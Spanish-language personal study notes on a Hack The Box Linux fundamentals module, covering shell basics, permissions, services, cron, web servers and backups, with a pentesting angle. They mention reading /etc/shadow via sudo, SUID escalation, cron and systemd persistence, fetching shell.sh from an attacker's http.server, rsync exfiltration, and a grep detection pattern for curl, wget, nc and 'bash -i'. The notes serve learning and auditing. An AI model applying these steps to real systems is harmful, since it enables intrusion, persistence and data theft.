

>[!NOTE]- Módulo en progreso (5/8 secciones de Workflow). Notas de lo completado.

## 1. Introducción

### Estructura de Linux

- Todo es un **árbol que nace en** **`**/**`** (raíz) — no hay unidades tipo C:\
- Estructura estándar (FHS): `/home` usuarios · `/etc` configuración · `/var` datos variables (logs, mail) · `/root` home del admin · `/bin`, `/sbin` binarios
- Ruta mental del descubrimiento: `find` por nombre → convenciones FHS → config en `/etc` → `man`


### Distribuciones

- Familias: **Debian/Ubuntu** (Kali, Parrot, Pwnbox) · **RHEL** (CentOS, Fedora) · **Arch**
- Todas comparten el kernel Linux; difieren en gestor de paquetes y filosofía

### El shell

- Shell = intérprete de comandos (bash es el estándar)
- Terminal ≠ shell ≠ consola: la terminal es la ventana, el shell es el programa que habla
- El prompt: `usuario@host:~$` — el `$` = usuario normal, `#` = **root** (¡ese símbolo es una alarma de cuidado!)

## 2. The Shell

### Prompt

- `usuario@maquina:ruta$` — leerlo antes de ejecutar algo me dice QUIÉN y DÓNDE soy

### Getting Help

- `man <comando>` — manual completo (q salir, / buscar dentro)
- `<comando> --help` — resumen rápido
- La ayuda está en el sistema: no necesito internet para aprender un comando

### System Information (lo que usé en mi sesión SSH)

|Comando|Me dio|
|---|---|
|`uname -r`|versión del kernel (4.15.0)|
|`id`|uid, gid, grupos|
|`whoami`|htb-student|
|`ps`|mis procesos (con TTY y PID)|

## 3. Workflow (8/8)

### Navegación

- `pwd`, `ls -la` (ocultos incluidos), `cd` (~ home · - anterior · .. subir)
- `ls -la` en `/home` me reveló otros usuarios: cry0l1t3, mrb3n → eso ES reconocimiento

### Archivos y directorios

- touch, mkdir, cp, mv, rm (sin papelera), `file` (el tipo real, no la extensión)

### Edición

- nano (Ctrl+O / Ctrl+X) · vim (i / Esc / :wq / :q!)
- En servidores remotos a menudo solo hay vim: saber los 4 comandos básicos = sobrevivir

### Búsqueda (find)

- `find / -name X 2>/dev/null` — el 2>/dev/null oculta "Permission denied" de carpetas ajenas
- `-type f|d`, `-size`, `-perm` (¡-4000 SUID = oro en escalada!), `-user`
- `which <comando>` — dónde está un binario

### Descriptores y redirección

- stdin=0, stdout=1, stderr=2
- `>` sobrescribe · `>>` agrega · `2>` errores · `2>&1` junta todo · `<` entrada · `|` pipe · `tee` (pantalla + archivo) · `/dev/null` (agujero negro)

### Filter Contents(completada 2026-10-25)
El pipeline de 4 verbos que me llevó toda una tarde entender:

|Verbo|Comando|Hace|
|---|---|---|
|extraer|`grep -o`|imprime SOLO el match, no la línea|
|excluir|`grep -v`|invierte: quita lo que coincide|
|regex extendida|`grep -E`|habilita `?`, `+`, `()` sin escapar|
|deduplicar|`sort -u`|ordena y quita repetidos|
|contar|`wc -l`|cuenta líneas|

**Patrones que aprendí destripando comandos:**

- `https?://` → la `s` es opcional (0 o 1 vez)
- `[^"[:space:]<>]+` → "cualquier cosa que NO sea comilla, espacio, `<` o `>`" — `[:space:]` es clase POSIX = todo whitespace
- `^...$` → anclas inicio y fin de línea (coincidencia exacta)
- `X?` → X opcional
- `\.` → punto literal (sin escape, `.` = cualquier carácter)
- `sed 's|viejo|nuevo|'` → reemplaza texto

**El patrón mental clave:** `extraer (grep -o) → transformar (sed) → deduplicar (sort -u) → contar (wc -l)`. Casi todo análisis de texto en HTB es esa cadena.

### Expresiones regulares(RegEx)

> RegEx = planos de busqueda de patrones de texto.  No busca texto literal, busca
> **Estructura**: "una palabra que empiece con X", "3 digitos seguidos de una letra". Vive en `grep`, `sed`, `awk` y casi todos los lenguajes.

**Meta caracteres de agrupacion:**

| Operador | Nombre | Que hace? |
|----------|--------|-----------|
| `(a)` | grupo | agrupa patrones para procesarlos juntos |
| `[a-z]` | clase de caracteres | Lista de caracteres basicos en esa posicion |
| `{1, 10}` | cuantificador | repite el patrón de busqueda `N` veces (como un rango) |
| `a\|b` | operador `OR` | coincide si aparecen a `O` b |
| `a.*b` | operador `AND` | coincide si aparecen a `Y` b |

**Ejemplos**

```bash
# OR: líneas con "my" O "false"
grep -E "(my|false)" /etc/passwd

# AND: líneas con "my" Y "false" (en ese orden)
grep -E "(my.*false)" /etc/passwd

# AND equivalente con dos greps encadenados
grep -E "my" /etc/passwd | grep -E "false"
```

### Manejo de Permisos

> Permisos = llaves. Cada archivo/directorio tiene **dueño (user)** y **grupo**, y para cada uno se definen r/w/x. El usuario puede pertenecer a varios grupos y hereda sus derechos.

**La tríada rwx (y el octal detrás):**

| Permiso | Letra | Valor |
|---|---|---|
| Read | r | 4 |
| Write | w | 2 |
| Execute | x | 1 |

`chmod 754 shell` → `7`=rwx (dueño), `5`=r-x (grupo), `4`=r-- (otros). Octal = suma de bits (111=7, 101=5, 100=4).

```bash
`usuario@linux[/linux]$ ls -l /etc/passwd 

- rwx rw- r--   1 root root 1641 May   4 23:42 /etc/passwd
- --- --- ---   |  |    |    |   |__________| |

| |   |   |     |  |    |    |        |_ Fecha
| |   |   |     |  |    |    |__________ Tamaño del archivo
| |   |   |     |  |    |_______________ Grupo
| |   |   |     |  |____________________ Usuario
| |   |   |     |_______________________ Número de enlaces duros
| |   |   |_ Permisos de otros (lectura)
| |   |_____ Permisos del grupo (lectura, escritura)
| |_________ Permisos del propietario (lectura, escritura, ejecución)
|____________ Tipo de archivo (- = Archivo, d = Directorio, l = Enlace, ... )
```

**Sintaxis simbólica de chmod:**
```bash
chmod u+x script.sh   # dueño: +ejecutar
chmod g-w archivo     # grupo: -escribir
chmod a+r shell       # todos: +leer   (u=owner, g=group, o=others, a=all)
chmod 754 shell       # equivalente octal
```
**Dueño y grupo:**
```bash
chown root:root shell    # cambia user y grupo a la vez
```
**Regla de oro que el módulo subraya:**

>[!NOTE] **Execute en un DIRECTORIO ≠ ejecutar archivos.** Es permiso para 
>**atravesar** el directorio. Sin x en el directorio: "Permission denied" aunque tengas `r`
> sobre el contenido. Para crear/borrar/renombrar dentro: necesitas **`w` sobre el 
> directorio**.

**Permisos especiales (el oro del pentester):**

|Bit|En `ls -l`|Efecto|Riesgo|
|:--|:--|:--|:--|
|**SUID** (4000)|`-rwsr-xr-x`|el binario corre como SU DUEÑO (¿root?)|si el programa puede lanzar shell → root directo(escalar privilegios)|
|**SGID** (2000)|`-rwxr-sr-x`|corre como su GRUPO|idem con grupos privilegiados|
|**Sticky** (1000)|`drwxrwxrwt`|en directorio compartido: solo el dueño del archivo puede borrarlo|defensa, no ataque|
- SUID/SGID son "pases temporales de acceso": útiles para tareas del sistema, letales si el admin los pone indiscriminadamente (ej: SUID en `journalctl` → shell como root)
    
- **`t` minúscula** = sticky + execute presente · **`T` mayúscula** = sticky SIN execute (nadie atraviesa ni ejecuta ahí)
    
- Referencia de binarios abusables: [**GTFObins**](gtfobins.github.io)

## 4. Manejo del sistema (System Management 4/9)

### Manejo de Usuarios

> Admin de usuarios = asignar llaves. Crear cuentas, meterlas en grupos con acceso a recursos, y ejecutar comandos como otro usuario cuando la tarea lo pide.

**Elevación de privilegios:**

| Comando | Qué hace |
|---|---|
| `sudo <cmd>` | ejecuta UN comando como otro usuario (default: root) |
| `su [-] [user]` | cambia DE USUARIO completo (abre shell; `-` = login shell con su entorno; sin user = root) |
| `sudo -i` / `sudo su` | sesión root completa (mismo efecto práctico) |


**Gestión de cuentas:**

| Comando | Qué hace |
|---|---|
| `useradd -m -s /bin/bash alex` | crea usuario (con home y shell) |
| `userdel -r alex` | borra usuario y su home |
| `usermod -aG developers alex` | agrega usuario a grupo (`-a` = append, sin él REEMPLAZA los grupos ⚠️) |
| `addgroup developers` / `delgroup` | crear/eliminar grupos |
| `passwd alex` | cambiar contraseña (root la cambia sin saber la vieja) |

**El ejemplo del módulo (y su lectura ofensiva):**
```bash
cat /etc/shadow          # Permission denied (solo root)
sudo cat /etc/shadow     # Nos deja tods hashes a la vista
```

### Manejo de paquetes

> Repaso: Ya conozco conceptos de esta seccion pero anotar por si se me olvida :D.

**Lo que ya sabía (repaso):**
- Qué es un paquete: archivo con binarios, configuraciones, metadatos de dependencias, control de updates
- Qué hace un package manager: descargar, resolver dependencias, instalar/eliminar, calidad/estándares etc...
- `apt` = front-end de alto nivel para Debian (el "npm/apt de sistema"); resuelve dependencias automáticamente descargándolas del repo
- `apt install <pkg> -y` · `apt remove` · `apt update && apt full-upgrade` (mi alias `update`)
- `git clone <url> ~/carpeta` → bajar tools desde GitHub (flujo clásico de HTB; ejemplo del módulo: Nishang de samratashok)
- `pip` (Python) y `gem` (Ruby) = package managers de ecosistemas de lenguaje (regla mental: igual que npm, pero para el runtime, no el SO)
- Repos: distribuciones mantienen repos centralizados, etiquetados stable/testing/unstable; el sistema consulta ahí al instalar/actualizar
- `apt list --installed` → inventario de paquetes instalados

**Lo que NO sabía / no tenía claro:**
- `dpkg` = la herramienta de BAJO nivel: instala .deb sueltos pero **NO resuelve dependencias** — si falta algo, `sudo dpkg -i tool.deb` falla o deja el sistema roto hasta `sudo apt -f install` (fix broken)
- Flujo completo de .deb a mano (ejemplo del módulo con strace):
```bash
wget http://.../strace_4.21-1ubuntu1_amd64.deb    # 1. descargar el .deb
sudo dpkg -i strace_4.21-1ubuntu1_amd64.deb       # 2. instalarlo
strace -h                                          # 3. probarlo
```

### Servicios y manejo de procesos

Servicios, conocidos en linux cotidianamente como `daemons` son componentes fundamentales en linux que corren en segundo plano y son esenciales para mantener el SO funcionando correctamente tanto como para habilitar funciones especificas que necesite el usuario.

Podriamos decir que exiten dos tipos, los de **sistema** ( que arrancan con el SO, hardware/init, Ej: como el motor de  un carro) y los de **usuario** (apps servidor instaladas después, Ej: como el aire acondicionado). El "d" final del nombre lo delata: `sshd`, `systemd`.

**Lo que ya saba (repaso):**
- `systemctl start|stop|restart|status <svc>` — control básico (me sonaba de Docker como levantar o bajar contenedores)
- `ps aux | grep X` — encontrar procesos (ya lo usé con ProFTPd)
- `kill <PID>` básico
- `;` separa comandos sin importar errores · `&&` encadena (lo uso en git) · `|` pipe (mi herramienta favorita ya que es lo mas practico )

**Lo que no sabía, un refuerzo importante:**
- `systemctl enable <svc>` / `disable` : arrancar o no  **en el boot**. `enable ≠ start`: enable marca para el arranque, start lo corre ahora. (Pentest: `systemctl enable backdoor` = persistencia en el objetivo)
- `systemctl list-units --type=service`: listar todos los servicios (crucial para hacer reconocimiento de X o Y sistema)
- `journalctl -u <svc> --no-pager`: logs del servicio. MISMO instinto que mi saga del boot: cuando algo no arranca, su log dice por qué.
- Estructura: PID (cada proceso), PPID (padre → procesos hijos), `/proc/<PID>/` (info en vivo)
- **Señales (la tabla que valía la pena):**

| Señal       | #   | Cuándo                                       |
| ----------- | --- | -------------------------------------------- |
| SIGHUP      | 1   | la terminal controladora se cerró            |
| SIGINT      | 2   | Ctrl+C (interrumpir)                         |
| SIGQUIT     | 3   | Ctrl+D                                       |
| **SIGKILL** | 9   | matar YA, sin limpieza (procesos congelados) |
| SIGTERM     | 15  | terminación amable (default de `kill`)       |
| SIGSTOP     | 19  | congelar, no manejable                       |
| SIGTSTP     | 20  | Ctrl+Z (suspender, sí manejable)             |

- **Job control (flujo completo):** `Ctrl+Z` suspende (no mata) → `jobs` lista → `bg` lo manda a background corriendo → `fg <id>` lo trae al frente · `comando &` = directo a background desde el inicio
- `pkill -f <nombre>` / `killall <nombre>` / `pgrep <nombre>` → matar/buscar por nombre sin buscar el PID
- Zombie: proceso muerto que sigue en la tabla (hijo que nadie recogió)
- `&&` exacto: si un comando FALLA, los siguientes no corren (`a && b` = b solo si a salió bien). `;` sigue siempre

** Typeo del módulo incorrecto:** el ejemplo dice `kill 9 <PID>` — la forma estándar y portable suele ser  **`kill -9 <PID>`** (con guión). Confiando pero verificando, también el material oficial.

**La conexión con mi lab de FTP:** aquel día me toco usar 2 terminales (una de control y una de datos). Con job control lo hago en 1: lanzo `nc <ip> <puerto>`, `Ctrl+Z`, `bg`, abro lo demás, y `fg` cuando lo necesite. Mismo principio para un listener de netcat corriendo en background mientras exploto.

### Programacion de tareas


**¿Qué es la programación de tareas?**

Es la como decirle al sistema "ejecuta esto, solo, sin que yo lo dispare, a esta hora o este dia o cada tanto". Como la cafetera programable: la configuras una vez y cada mañana hay café sin que toques nada. En Linux sirve para actualizaciones automáticas, backups, mantenimiento de bases de datos, scripts periódicos, cualquier tarea repetitiva que debe ocurrir con confiabilidad.

**Por qué importa en ciberseguridad?:** yo lo definiria como una herramienta legítima de administración que  a su vez es un vector de ataque al mismo tiempo. Un atacante puede esconder tareas programadas que ejecutan scripts maliciosos o mantienen una puerta trasera viva a intervalos. Saber cómo funciona = saber auditarlo (detectar cron jobs sospechosos) y saber usarlo (persistencia en un sistema comprometido).

En Linux hay 2 sistemas para esto: **systemd timers** (el moderno) y **cron** (el clásico).

---

#### Systemd Timers (el método moderno)

Cuatro piezas que trabajan juntas:

**1. Crear el timer** (el "cuándo") — `/etc/systemd/system/mytimer.timer`:
```ini
[Unit]
Description=My Timer

[Timer]
OnBootSec=3min          # corre 3 minutos después del boot
OnUnitActiveSec=1hour   # y luego cada hora

[Install]
WantedBy=timers.target
```

- `OnBootSec` → ejecuta UNA vez X tiempo después de encender.
- `OnUnitActiveSec` → ejecuta cada vez que pasa X intervalo (repetición).

**2. Crear el service** (el "qué") — `/etc/systemd/system/mytimer.service`:
```ini
[Unit]
Description=My Service

[Service]
ExecStart=/ruta/completa/al/script.sh

[Install]
WantedBy=multi-user.target
```

- `multi-user.target` = el estado normal del sistema multiusuario (el "modo estándar de arranque").
- 
**3. Recargar systemd** (paso que todos olvidamos jeje) :
```bash
sudo systemctl daemon-reload
```

Si no hacemos esto, systemd simplemente no "ve" los archivos nuevos que acabas de crear. No da error: simplemente ignora tus timers. 

**4. Activar:**
```bash
sudo systemctl start mytimer.timer    # arrancarlo ahora
sudo systemctl enable mytimer.timer   # que sobreviva al reboot
```

#### Cron (el método clásico)

Un solo archivo (el **crontab**) con 5 columnas de tiempo + el comando:

```plain
┌───────── minuto (0-59)
│ ┌─────── hora (0-23)
│ │ ┌───── día del mes (1-31)
│ │ │ ┌─── mes (1-12)
│ │ │ │ ┌─ día de la semana (0-7, donde 0 Y 7 = domingo)
│ │ │ │ │
* * * * *  /ruta/al/comando.sh
```

Reglas de los valores:
- `*` = "todos los valores posibles"
- `*/N` = "cada N" (ej: `*/6` en horas = cada 6 horas)
- número exacto = "solo ese"
Ejemplos del módulo, desglosados:

```cron
0 */6 * * *   /scripts/update.sh     # minuto 0, cada 6 horas → 4 veces al día
0 0 1 * *     /scripts/monthly.sh    # 00:00 del día 1 de cada mes
0 0 * * 0     /scripts/sunday.sh     # 00:00 cada domingo
0 0 * * 7     /scripts/also-sun.sh   # idem (7 también es domingo)
```
Comandos para manejar mi crontab:
```bash
crontab -e    # editar (crea el archivo si no existe)
crontab -l    # listar MIS tareas programadas
```

Las tareas del sistema viven aparte: `/etc/crontab`, `/etc/cron.d/`, `/etc/cron.daily/`...

#### Systemd vs Cron — la diferencia en una frase

> Cron, yo lo llamaria como un archivo de texto que dice cuándo correr cosas. Systemd timer es mas como 2 archivos (el **"timer"** para el "cuándo" y el **"service"** para el "qué") más una activación explícita. Cron es más simple; systemd es más flexible (dependencias, logs vía journalctl, eventos etc..).

#### El ángulo seguridad (por qué esta sección existe en un curso de hacking?)

- **Persistencia del atacante:** Muchas veces el objetivo que tiene un hacker o cracker es mantener acceso al sistema que vulnero entonces una tarea programada hace que el acceso resucite solo. Ejemplo clásico: reverse shell que se reconecta cada 5 minutos:
```bash
crontab -l                          # tareas del usuario actual
ls -la /etc/cron*                   # TODO lo programado del sistema
cat /etc/crontab
grep -rE "curl|wget|nc|bash -i" /etc/cron*   # ¿algo descarga y ejecuta?
```
- En máquinas de HTB es un patrón clásico: un cron corre como root un script que cualquiera puede escribir luego editas el script, esperas el minuto y bum eres root.

### Trabajando con servicios web

**Lo que ya sabía (repaso):**
- Apache/nginx/IIS = web servers; Apache es modular (mod_ssl = cifrado, mod_proxy = redirección/traffic controller, mod_headers, mod_rewrite) — mismo concepto que mis configs de nginx como reverse proxy
- Apache sirve contenido estático y dinámico (PHP, Perl, Ruby, Python...)
- Puerto HTTP por defecto: 80; verificar con `curl -I http://localhost` → headers `200 OK`
- `curl <url>` → la página va a **stdout** (ya lo viví a fondo en la saga del 34)
- `wget <url>` → **descarga y guarda** el archivo localmente
- `python3 -m http.server` → web server instantáneo (¡literalmente mi alias `serve`! escucha en 0.0.0.0:8000 y loguea cada request)

**Lo que NO sabía / detalles nuevos:**
- `apache2ctl` existe como comando de control; el binario `apache2` a secas NO se usa directo (las variables de entorno de la config default lo requieren). Para arrancar: `systemctl start apache2` (ya lo manejo)
- Cambiar el puerto de Apache: editar **`/etc/apache2/ports.conf`** → `Listen 8080` → restart. (En el Pwnbox el 80 está ocupado por otro servicio — por eso 8080)
- La distinción formal **curl vs wget**: curl = transferir/inspeccionar (stdout, testeo); wget = descargar (guarda a disco, "download manager"). En HTB casi siempre curl para mirar, wget/curl para traer cosas
- `python3 -m http.server` **también es un logger**: cada GET queda impreso en tu terminal con IP, path y código de respuesta

** El ángulo pentest (el verdadero valor de esta sección):**
> `python3 -m http.server` es LA herramienta de transferencia de archivos post-explotación:
> 1. En tu máquina: `serve 8000` dentro de la carpeta con tus payloads
> 2. En el target comprometido: `wget http://10.10.14.X:8000/shell.sh` o `curl -o shell.sh http://...`
> 3. Tu terminal te muestra EN VIVO cuándo el target jaló el archivo (el log)
>
> Y curl es tu "browser de terminal" para inspeccionar apps web antes de atacar: ver código fuente, headers (`-I`), enviar datos (`-d`), custom User-Agent (`-A`) — este último ya lo viví a mano con netcat en el lab de FTP.

**Conexión con mi historial:** el serve() que hice como función hace dos días es exactamente el tool que esta sección presenta. Y el User-Agent custom del lab FTP es `curl -A "Server Administrator"` automatizado. Todo conecta.

### Backup y restauracion

**Lo que ya sabía (repaso):**
- Conceptos de backup: full vs incremental, por qué transferir solo lo cambiado es eficiente (mismo principio que git con los deltas)
- SSH con llaves: `ssh-keygen` + copiar la pública al servidor = login sin password (ya lo uso con GitHub)
- Cron para automatizar (sección anterior)
- Cifrado de respaldos como idea (y LUKS ya lo viví con mi USB cifrada)

**Lo que NO sabía / refuerzo:**
- **`rsync` es EL tool de backup en Linux**, y sus flags:
```bash
rsync -av /origen/ user@server:/destino/     # -a = archive (preserva permisos, timestamps, owners) · -v = verbose
rsync -avz origen/ destino/                 # -z = compresión en tránsito
rsync -av --delete origen/ destino/           # --delete = borra en destino lo que ya no existe en origen (espejo exacto)
rsync -avz -e ssh origen/ user@server:/destino/   # por SSH (cifrado en tránsito)
```
- **Las tres opciones del ecosistema:**
    - **rsync** → transferencias delta (solo lo que cambió), local o remoto
    - **duplicity** → rsync + **cifrado del backup** (sirve para respaldar en servidores/cloud no confiables: S3, FTP ajeno)
    - **deja dup** → GUI amigable (para gente que no quiere terminal)    
    - cifrado extra posible con GnuPG, eCryptfs o LUKS
        
- **El patrón auto-sync** (conecta TRES secciones en una): script con rsync + SSH sin password (key-based) + cron:

```bash
ssh-keygen -t rsa -b 2048          # 1. llave sin passphrase (para automatizar)
ssh-copy-id user@backup_server     # 2. instalar la pública en el destino
# 3. script con el rsync + chmod +x
# 4. crontab: 0 * * * * /ruta/RSYNC_Backup.sh
```

El detalle clave: **la llave sin passphrase** — necesaria para que cron corra solo sin humano que escriba password. (Trade-off de seguridad que ya conoces: llave sin passphrase = quien robe tu llave entra sin fricción. Mi backup del header LUKS tiene el mismo dilema guardado en el portátil.)

**El ángulo pentest:**

- **Exfiltración:** rsync es una herramienta clásica de exfiltración en máquinas comprometidas — un atacante con acceso puede `rsync` tus datos a su servidor tan eficientemente como un admin hace backups. ¿Por qué importa? Porque detectar rsync inusual en un host (procesos, conexiones salientes) es una señal de SOC.
    
- **Recon:** los backups son un desastre de seguridad cuando se hacen mal — archivos `.bak`, copias de `/etc/shadow`, dumps de DB en directorios web... en HTB es un vector clásico: `find / -name "*.bak" 2>/dev/null`
    
- **Persistencia otra vez:** cron + script + rsync = canal encubierto que sincroniza datos cada hora. La auditoría de `/etc/cron*` que anoté en Task Scheduling es exactamente la defensa.


## Lo que viví en la sesión (no está en el módulo, pero importa)

- `/etc/passwd` legible por todos: `usuario:x:UID:GID:desc:home:SHELL`
- el `x` = la pass real vive en `/etc/shadow` (cifrada, solo root)
- cuentas de servicio con `/usr/sbin/nologin`: existen para servicios, nadie loguea con ellas
- El mail de un usuario vive en `/var/mail/<usuario>` (del sistema, no del home) — y el archivo solo existe si llegó correo
- `cat root` en /var/mail → ****Permission denied****: los spools de mail son privados (Unix protegiendo datos)
- Errores que me enseñaron: cat en directorio ("Is a directory"), pegar la contraseña en el comando ssh en vez del prompt, `exit` no existe en netcat

### Batallas de hoy (2026-10-25) — errores que fueron lecciones
- **El** **`**127.0.0.53**`** **fantasma:** al contar "servicios escuchando en todas las interfaces" excluí solo `127.0.0.1` — y el DNS stub de systemd-resolved (`127.0.0.53%lo:53`) se coló en mi cuenta. 
- Lección: **filtrar por la definición** (loopback = `127.0.0.0/8` entero, `grep -v '127\.'`), no por el ejemplo que conocía.
- **`**ps**`** **vs** **`**ps aux**`** **:** busqué el usuario de ProFTPd con `ps -la` y solo veía mis procesos. Sin la `x` no ves daemons (no tienen TTY). `ps aux | grep X` = "¿quién corre proceso X y como quién?" → respuesta: `proftpd`, su propio usuario dedicado (buena práctica de drop privileges).
- **Estres con el 34:** contar los paths únicos de inlanefreight.com me tomó 5 intentos (10 → 20 → 35 → 34). Lo que fallaba cada vez era la __definición del set__: ¿cuentan hrefs completos o paths? ¿la raíz `/` es un path? (el grader dijo que no). Lección: cuando un grader te rechaza, volcar la lista intermedia (`sort -u > /tmp/x.txt`) y auditarla línea por línea es más rápido que googlear.

